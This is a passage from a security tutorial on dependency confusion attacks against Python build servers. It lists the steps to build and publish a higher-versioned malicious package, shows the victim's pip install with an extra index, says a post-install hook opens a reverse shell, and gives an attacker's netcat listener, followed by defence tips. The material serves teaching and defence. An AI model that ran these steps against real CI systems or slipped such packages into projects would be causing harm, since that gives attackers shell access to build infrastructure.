 #### 3. Build and Publish
- **Build Package:**
  
  ```bash
  python3 setup.py sdist
  ```

- **Publish to Simulated External Repository:**
  
  ```bash
  twine upload dist/datadbconnect-v9000.0.3.tar.gz --repository-url http://external.pypi-server.loc:PORT
  ```

#### 4. Trigger the Exploit on the Build Server
- **Server Setup:**  
  - The build server’s pip command includes both the internal index and an extra index:
  
    ```bash
    pip install datadbconnect --no-cache-dir --trusted-host internal.pypi-server.com --extra-index-url "http://internal.pypi-server:8081/simple/"
    ```

- **Outcome:**  
  - Because the malicious version (v9000.0.3) is higher, pip installs it.
  - The post-install hook fires, initiating a reverse shell connection.

- **Listener Command (on Attacker's Machine):**
  
  ```bash
  nc -lvp 9001
  ```

---

### Real-Life Implications
- **Practical Impact:**  
  - An attacker gains shell access to the build server during an automated dependency installation.
- **Defense Tips:**  
  - Use a strict internal-only index (`--index-url` instead of `--extra-index-url`).
  - Pre-register critical internal package names on public repositories.
  - Enforce integrity checks (e.g., subresource integrity) to verify downloads.

---

## VII. Best Practices & Real-World Considerations

- **General Principles:**
  - **Vigilance:** Constantly monitor, update, and secure all dependencies.
  - **Least Privilege:** Restrict access rights to the minimum necessary.
  - **Verification:** Use checksums and controlled repositories to ensure integrity.
  
- **Everyday Examples:**  
  - A developer using a simple `pip install numpy` may unwittingly run tens of thousands of lines of external code.
  - A misconfigured cloud storage bucket could allow an attacker to overwrite a widely used JavaScript library, leading to mass credential harvesting.
  - Dependency confusion in a Python project might let an attacker inject a reverse shell during the CI/CD pipeline execution.
